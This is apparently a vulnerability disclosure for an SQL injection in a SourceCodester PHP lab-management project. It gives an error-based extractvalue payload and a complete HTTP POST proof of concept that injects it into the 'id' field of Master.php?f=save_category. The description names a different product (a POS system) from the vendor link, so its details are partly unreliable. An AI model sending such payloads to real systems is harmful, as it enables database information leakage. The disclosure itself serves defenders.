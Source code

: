 # SQL-7

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html](https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /php-lms/classes/Master.php?f=save_category

[+] Payload:

```http
extractvalue(1,concat(char(126),md5(1919725625)))
```

POC：

```http
POST http://localhost/php-lms/classes/Master.php?f=save_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------190692357828557768523090036370
Content-Length: 2285634
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=category
Cookie: PHPSESSID=13o927b44gh33i0a70b00sc0ac
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="id"

extractvalue(1,concat(char(126),md5(1919725625)))
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="name"

Mouse
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="description"

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer molestie ipsum ornare nunc pellentesque, ut iaculis diam facilisis.
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="status"

1
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="img"; filename="警院邀请函.jpg"
Content-Type: image/jpeg

aaaa
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image-20240401093600-3wu5ehz](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/d26c42db-8db7-45fb-977a-ef6bdba5adda)

​

‍
